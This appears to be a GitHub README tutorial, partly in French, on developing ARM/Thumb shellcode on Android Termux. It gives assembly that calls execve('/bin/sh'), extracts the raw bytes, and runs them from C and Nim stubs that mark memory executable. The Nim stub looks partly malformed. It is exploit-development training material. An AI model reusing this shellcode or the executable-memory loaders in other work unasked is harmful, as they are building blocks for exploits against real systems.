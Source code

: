 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin
~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin               $>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)

# Shellcode tester 

create a file [ShellTester.c](https://github.com/Dkwebpoint/shellcode/blob/36c5cbee6fddb6f48329b393e88a74c329c25c82/ShellTester.c)

```
GNU nano 7.2                                                 shelltester.c
/**********************************************************************
*
* Program: shelltester.c
*
* Date: 08/11/2023
*
* Purpose: This code is used to provide a C template to paste shellcode
*          into and be able to run it live from within an ELF binary's
*          char buffer. This allows you to create a buffer with the
*          shellcode globally and this program will mark it as RWX using
*          mprotect() and then finally jump into.
*
* gcc -m32 -z execstack shelltester.c -o shellcodetester
*
***********************************************************************/
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

/////////////////////////////////////////////////////
//  source file: shell.s
/////////////////////////////////////////////////////                                                                                        char payload[] = "\x01\x30\x8f\xe2"
                 "\x13\xff\x2f\xe1"
                 "\x02\xa0"
                 "\x49\x40"                                                                                                                                   "\x52\x40"
                 "\xc2\x71"
                 "\x0b\x27"
                 "\x01\xdf"
                 "\x2f\x62\x69\x6e"
                 "\x2f\x73\x68\x58";

int main() {
    // Print the banner.
    puts("\n\t\033[33;1m---===[ Shellcode Tester Stub v1.0 ]===---\033[0m\n");

    // Print the size of the shellcode.                                                                                                          printf(" [\033[34;1m*\033[0m] Shellcode Size:  %d\n", sizeof(payload)-1);

    // Create a function pointer to the shellcode and
    // display it to the user.
    void (*shell)();
        shell=(void (*)())payload;

    printf(" [\033[34;1m*\033[0m] Shellcode Address: %p\n", shell);

    // Calculate the address to the start of the page for the
    // the shellcode.
    void *page_offset = (void *)((int)shell & ~(getpagesize()-1));
    printf(" [\033[34;1m*\033[0m] Shellcode page: %p\n", &page_offset);

    // Use mprotect to mark that page as RWX.
    mprotect(page_offset, 4096, PROT_READ|PROT_WRITE|PROT_EXEC);

    // Finally, use our function pointer to jump into our payload.
    puts("\n\033[33;1m---------[ Begin Shellcode Execution ]---------\033[0m");
    (*shell)();

    // We likely won't get here, but might as well include it just in case.
    puts("\033[33;1m---------[  End Shellcode Execution  ]---------\033[0m");
    return 0;
}
```
# Compile and execute the shellcode with C programme 

```
~ $> gcc -o shelltester -z execstack ShellTester.c

~ $> ./shelltester

```
![execute](https://github.com/Dkwebpoint/shellcode/blob/ec30f234b6aabeda21106e148769ef09001e2b85/IMG_20231112_084450.jpg)

# Compile and execute the shellcode with NIM programme 

create a file [shelltester.nim]()
```
GNU nano 7.2                           test7.nim
import std/[posix, strformat]
import std/strutils

var
  payload = array[28, byte] [
  byte 0x01,0x30,0x8f,0xe2,0x13,0xff,0x2f,0xe1,0x02,0xa0,0x49,0x40,0x52,0x40,0xc2,0x71,0x0b,0x27,0x01,0xdf,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x58
  ]
  ]

  (prot, flag) = (PROT_WRITE or PROT_EXEC, MAP_ANONYMOUS or MAP_PRIVATE)
  tstptr = mmap(nil, sizeof payload, prot, flag, -1, 0)
  tstptr2: pointer
  memad: int

if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"                                         copyMem(tstptr, payload[0].addr, sizeof payload)
cast[proc(){.cdecl.}](tstptr)()
echo payload.repr                                                                       echo tstptr.repr # prints hello, world!
echo typeof(tstptr)

memad = cast[int](tstptr) # address, same as the one listed in repr(tstptr)!
tstptr2 = cast[pointer](memad) # generic pointer to address?
tstptr = cast[ptr string](tstptr2) # converting back to pointer to string?
echo tstptr2.repr

echo typeof(tstptr2)
if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"

discard munmap(tstptr, sizeof payload)
```
```
~ $> nim compile shelltester.nim
~ $> ./shelltester
```

[nim shelltester programme ]()
